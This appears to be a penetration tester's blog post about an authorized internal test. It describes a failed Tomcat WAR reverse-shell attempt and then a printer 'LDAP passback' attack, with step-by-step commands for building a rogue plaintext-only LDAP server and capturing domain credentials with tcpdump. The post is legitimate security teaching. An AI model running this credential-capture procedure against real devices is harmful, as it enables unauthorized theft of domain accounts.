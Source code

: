 ```yaml
---
layout: "single"
title: "Snatching Domain Creds from Unexpected Places."
date: "2019-04-29 15:24"
author_profile: true
toc: true
---
```


{% include figure image_path="/images/posts/password-snatch.jpg" type=center %}

# It was just another boring pentest

I recently had an interesting network pentest and thought it'd be worth a share to my fellow red teamers out there. I'll set the stage. A colleague and I were both working the same penetration test for a PCI client, both a merchant & service provider. I had just wrapped up the external pentest and my colleague had an extra week worth of time on the internal, so I jumped in to help. I already knew going in that it was going to be rough because the external turned up almost _no_ findings at all, and my friend had already been banging his head against the internal network remotely for a week. 

When I first arrived into the network and started on my own recon process, I quickly came to a lot of the same conclusions that my partner had. This network would be tough. Our job was to emphasize on stealth because the blue team would be actively hunting us and trying to test out their incident response procedures as we worked. I can say they did a good job of doing that without being overly restrictive. It made for a truly fun cat-and-mouse game. For roughly 3 days, we continued doing low-and-slow nmap scans and digging around in the network for interesting services. We both saw evidence of Nessus, splunk, and Symmantec Enterprise End-point protection that somewhat indicated these guys were serious about their internal network security. 

This point was proven when I discovered an Apache Tomcat server in their dev environment that had just recently been stood up. I immediately tested for default creds aaaaand -- bam -- manager console access. "Awesome!" thought I. We finally had a chance to get a shell on a local network machine, which was Windows 10. If I was lucky, the Tomcat server would be running as local admin and I could just mimikatz myself to victory. Or so I thought ...

I went the usual route, uploading a malicious WAR with a simple `java/reverse_tcp` shell and used the fancy new `--encrypt` option for good measure. I meticulously prepped my attack to make sure it would have the best chance of success. After I finally uploaded it and executed the .jsp page with my shell ... nothing. I got an internal 505 error and no session came back. My first instinct was that they had some egress filtering in place, perhaps. Then we got an email from the client describing exactly the actions I performed on those exact servers and asked if it was us that did it. I realized their endpoint protection must have picked off the payload and tattled on us. By the time we emailed them back, they shut down and changed all the passwords on all of the Tomcat servers in the environment. To say the least, we were both impressed by the response time. It was going to be a long pentest.

# When suddenly ... there was a printer

While looking through the various subnets, I kept noting the presence of a lot of managed printers that were hanging around. Normally I don't give them much thought, but the both of us were coming up on the final hours of testing and hadn't come up with anything particularly substantial. The first printer I popped was an IPP-managed printer that I was able to connect to via SOCKS proxy through the appliance. This was a simple case of port-forwarding the IPP port (631/tcp) like so... `ssh -l 631:target-ip:631 my-user@attack-box`. I came to find out that this printer actually was sitting in the CEO's office because "John Doe's Office" was in the hostname. The realization that if I could manage to steal some of the jobs off the printer and find some sweet, sweet PCI data or credentials dawned on me, but it was a longshot. I documented the default admin credentials and moved on.

We spent the remainder of the day beating our heads against the wall, trying every trick in the book. SMB relay was no good, they enforced SMB signing domain-wide. Good for them, bad for us. There were a few pieces of software that _looked_ vulnerable to RCE for a second, but proved unexploitable because they had already hardened the hosts against the default credentials or implemented work arounds. Once again, blue-team scores. 

Finally, I came across one final printer, this time a Kyocera floor model laser printer that stuck out to me. It had SNMP, NetBIOS, FTP, SMB, and HTTPS web services all running on it simultaneously, which seemed weird. I connected to the web server and saw a login prompt. On instinct, I looked up the default credentials for the model, which relinquished full control of the printer to me. I wasn't sure what I was looking for, but with only an hour left in the pentest, I was digging with my fingernails for something useful. At least I could say I found default credentials in a PCI environment as I waved my pathetic little victory flag.

# Light at the end of the tunnel

Suddenly, I realized there were configurations for SMTP and LDAP services on the printer when I began digging around in the advanced configuration settings. I noted that there were domain user credentials on this thing. _-gasp-_ "Oh my God, we could still pull this off," I thought. The credentials themselves were masked, which was frustrating at first. Then I suddenly remembered, "Duh, I'm admin. I can just tell it to talk to any server I want!" I learned from my good friend @JamCut that this classic attack is called a ["Passback Attack"](http://h.foofus.net/?p=468) and was first unearthed by Deral (PercX) Heiland and Michael (omi) Belton back at DefCon 19. For some servers, it's as easy as opening up netcat and telling the printer to connect back to your netcat listener to deliver credentials. Sadly, in my case, LDAP does not like to just give up credentials like a humble hacker might hope. Without that LDAP handshake, it won't so much as acknowledge your existence. For me to get that printer to give up its credentials, I would need to stand up my own rogue LDAP server. Then we could get somewhere.

# Step 1: Build a rogue LDAP server

The first hurdle for this attack was simply swapping out the IP address of the Domain controller for my own host. For the next part, since there currently aren't any metasploit modules that do this for me, I would need to build my own LDAP server from scratch. :(

The LDAP setup was a bit tricky, but thankfully I happened to have built a few in my spare time. I also found a very helpful blog post from [Danny Rappleyea](https://www.digitalreplica.org/about/) titled [OpenLDAP for LDAP Plaintext Password Capture](https://www.digitalreplica.org/2015/10/openldap-for-ldap-plain-text-password-capture/) that walked me through the process. The most important component of the attack was configuring my LDAP server to require "PLAIN" authentication only, via unencrypted LDAP. To do this requires a bit of prior LDAP experience, and some familiarity with LDAP's unique  _.ldif_ configuration files. 

```
# Install slapd on Kali Linux
apt-get update
apt-get -y install slapd

# Configure the server
dpkg-reconfigure -p low slapd
```

Select the following settings: 
* Omit OpenLDAP server Configuration? **NO**
* DNS domain name: **victim.com** 
* Organization Name: **victim.com**
* Administrator password: **Dealer's Choice**
* Database backend to use: **HDB**
* Do you want the database to be removed when slapd is purched? **NO**
* Move old database? **YES**
* Allow LDAPv2 Protocol? **YES** (This enables PLAIN-auth support :D)

Next, start your slapd server

```
systemctl start slapd
```

The next thing you'll need to do is copy the following text into an .ldif file

```
cat >olcPlainAuthOnly.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Hit ESC to end the cat stream

Now, before you apply the LDIF changes, check the existing authentication mechanisms, and ensure the changes are applied.

```
# Check Existing Settings
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

##OUTPUT##
dn:
supportedSASLMechanisms: DIGEST-MD5
supportedSASLMechanisms: CRAM-MD5
supportedSASLMechanisms: NTLM

# Apply LDIF Changes
ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcPlainAuthOnly.ldif

# If you don't get any errors, restart slapd and check your configuration

systemctl restart slapd
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

##OUTPUT##
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

When you see PLAIN and LOGIN as the only supported SASL authentication methods, you're good to go. The last step is to modify the printer settings to make sure it connects to your IP on the LDAP port (389 by default), and if the printer supports secure SSL/TLS or STARTTLS, make sure to turn that stuff off. The process for each printer will vary, but if you've gotten this far, I'm confident you'll find it. No problem when you're the printer's local admin ;) 

# Step 2: Profit

After I finally opened up my LDAP service, I fired up tcpdump via `tcpdump -SXnn -p 389 -i eth0` so that it would listen to all the LDAP traffic and print out the ASCII packet trace. After that, I hit "Test Connection" on the printer.

![Obligatory, Heavily Censored Screenshot](/images/posts/ldap-passback.png)

Lo' and behold, those lovely domain credentials came back clear as day in plain text. Thanks to our newly acquired domain access, we had the ability to enumerate usernames, domain admins, and domain computers via rid cycling, courtesy of @Gilks [enumerid](https://github.com/gilks/enumerid) tool. 

The results of the test turned out quite nicely despite struggling for the first 90% of it. The main lesson I took from this particular test is that you shouldn't overlook embedded hardware, especially managed printers. As it turns out, this particular printer needed those LDAP credentials to pull out user emails for doing copy-to-email functions. It's a convenient feature, but also will make a hacker's day if you supply them to a printer with default credentials still in place.
